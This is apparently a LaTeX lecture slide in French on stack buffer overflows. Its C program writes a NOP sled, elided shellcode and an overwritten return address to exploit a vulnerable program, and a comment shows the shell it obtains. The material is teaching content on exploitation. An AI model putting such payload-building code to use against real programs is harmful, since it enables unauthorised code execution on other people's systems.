 \begin{frame}[fragile]
  \frametitle{Pla\c{c}ons le pi\`ege}%
  \begin{verbatim}
#include<stdio.h>
#define SHELLCODESIZE 50
char shellcode[] = "\xE8\x10\x00\x00" etc. "\x00\xCD\x80" ;
int main(int argc, char **argv){ 
  unsigned long int i, taille, base ;
  base = strtoul(argv[2],NULL,0) ;
  base -= taille = strtoul(argv[1],NULL,0) ;  
  base -= strtoul(argv[3],NULL,0);            
  for( i=0 ; i<taille-SHELLCODESIZE ; i++)    
    putchar('\x90');                          
  for( i=0 ; i<SHELLCODESIZE ; i++)          
    putchar(shellcode[i]);
  char * res = (char *) &base ;
  for(i=0;i<sizeof(int);i++) /* le piege fonctionne                 
    putchar(*(res+i));       %exploit 108 `SommetPile` 0>piege   
  putchar('\xF8') ;          % vulnerable                                     
  return 0 ;                 sh-2.05b$                              
}                            */                                   
  \end{verbatim}
\end{frame}
